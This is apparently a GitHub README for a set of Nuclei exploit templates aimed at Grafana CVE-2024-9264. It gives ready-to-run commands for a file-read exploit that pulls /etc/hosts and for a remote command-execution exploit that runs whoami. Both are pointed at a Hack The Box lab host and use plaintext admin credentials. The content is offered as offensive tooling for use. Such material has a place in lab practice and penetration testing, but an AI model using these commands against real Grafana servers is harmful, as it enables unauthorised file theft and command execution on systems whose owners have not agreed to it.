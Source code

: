 # Nuclei Blues: Nuclei templates

![](/img/nuclei-blues.png)

## Grafana

### CVE-2024-9264

#### LFI 

- file: grafana/grafana-cve-2024-9264-lfi.yaml

The `grafana-cve-2024-9264-lfi.yaml` template leverages the vulnerability to exfiltrate files from the target.

Please note that you may need to escape slashes when specifying the path of the file you want to read in the rfile variable to prevent Nuclei from trying to open the file on your system.

```sh
nuclei -u http://grafana.planning.htb -t ./grafana-cve-2024-9264-lfi.yaml -var username=admin -var password=0D5oT70Fq13EvB5r -var rfile="\/etc\/hosts"
```

##### RCE

- file: grafana/grafana-cve-2024-9264-rce.yaml

The `grafana-cve-2024-9264-rce.yaml` template leverages the vulnerability to run commands the target.

```sh
nuclei -u http://grafana.planning.htb -t ./grafana-cve-2024-9264-rce.yaml -var username=admin -var password=0D5oT70Fq13EvB5r -var command=whoami
```
